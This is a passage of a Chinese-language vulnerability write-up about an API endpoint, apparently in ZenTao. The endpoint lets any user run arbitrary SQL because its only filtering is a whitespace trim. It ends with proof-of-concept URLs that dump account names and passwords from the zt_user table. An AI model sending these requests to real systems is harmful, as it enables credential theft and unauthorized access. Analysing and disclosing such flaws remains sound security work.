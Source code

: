 这里并没有进行过滤，只使用了代码**$sql=trim($sql)**过滤了空格

我们看一下这里的调用这个方法需要的权限

![image-20220209203019001](/images/202202092030068.png)

这里可以看到任何用户都可以调用这个模块的方法，所以我们用它调用**sql**方法进行查询(空格转换为+,绕过过滤)

```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-sql-sql=select+account,password+from+zt_user
```

![image-20220209203039142](/images/202202092030188.png)

成功执行sql语句

## 漏洞POC

登陆后访问

```
http://xxx.xxx.xxx.xxx/api-getModel-user-getRealNameAndEmails-users=admin
```

```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-sql-sql=select+account,password+from+zt_user
```

